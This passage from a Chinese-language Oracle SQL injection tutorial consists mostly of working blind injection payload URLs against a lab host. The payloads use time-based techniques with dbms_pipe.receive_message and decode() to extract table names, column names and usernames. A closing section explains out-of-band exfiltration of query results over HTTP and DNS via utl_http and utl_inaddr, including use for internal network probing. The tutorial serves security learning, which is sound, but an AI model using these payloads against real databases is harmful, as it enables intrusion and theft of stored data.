 **猜解表名**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(table_name as varchar(4000)),chr(32)) from all_tables where rownum=1 and owner='TEST'),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

**猜解字段**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(column_name as varchar(4000)),chr(32)) from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

**猜解数据**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(username as varchar(4000)),chr(32)) from test.users where rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

###### 2.**decode()函数时间盲注**

```
（select count(*) from all_objects)会花费更多时间去查询所有数据库的条目。不过在使用的过程中有很多不尽如人意的地方，有时候加载快有时加载慢。
```

**时间盲注的应用**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual)
```

payload构造如上。

###### 3.**decode()与dbms_pipe.receive_message()嵌套时间盲注**

**时间盲注的应用**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS', 5),0) from dual)
```

payload构造如上。

##### 13)**DNS带外通信注入**

```
Oracle注入之带外通信和DNSLOG注入非常相似，例如和mysql中load_file()函数实现无回显注入非常相似。

Oracle发送HTTP和DNS请求，并将查询结果带到请求中，然后检测外网服务器的HTTP和DNS日志，从日志中获取查询结果，通过这种方式将繁琐的盲注转换成可以直接获取查询结果的方式。

使用第三方平台，监听访问请求，并记录请求的日志信息，然后使用utl_http.request()向外网主机发送http请求，请求便携带了查询的结果信息。此处可以结合SSRF进行内网探测。或许这就是Oracle的SSRF。

利用utl.inaddr.get_host_address()，将查询结果拼接到域名下，并使用DNS记录解析日志，通过这种方式获取查询结果。
```
